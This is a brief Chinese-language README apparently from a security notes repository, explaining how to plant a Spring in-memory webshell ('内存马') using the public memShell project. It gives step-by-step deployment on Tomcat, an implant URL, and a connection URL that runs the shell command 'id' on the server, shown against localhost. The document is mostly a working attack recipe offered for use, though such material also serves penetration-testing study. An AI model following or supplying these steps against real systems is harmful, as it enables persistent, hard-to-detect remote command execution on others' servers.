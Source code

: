 # spring 内存马

具体利用可参考feihong师傅的代码 

https://github.com/feihong-cs/memShell/blob/master/src/main/java/com/memshell/spring/ControllerBased.java

利用:

1. git clone https://github.com/feihong-cs/memShell.git

2. mvn 打包成 war 包 重命名 springmemshell.war

3. copy war 至 tomcat webapp 目录下 。访问 http://127.0.0.1:8080/springmemshell/ 返回 Hello World!  说明部署成功

4. 植入内存马 http://127.0.0.1:8080/springmemshell/hello 返回success 则植入成功

5. 连接内存马 http://127.0.0.1:8080/springmemshell/poc2020?type=basic&pass=id

![image](https://user-images.githubusercontent.com/26767398/116067209-84ada600-a6bb-11eb-9d2e-01bd314d2075.png)
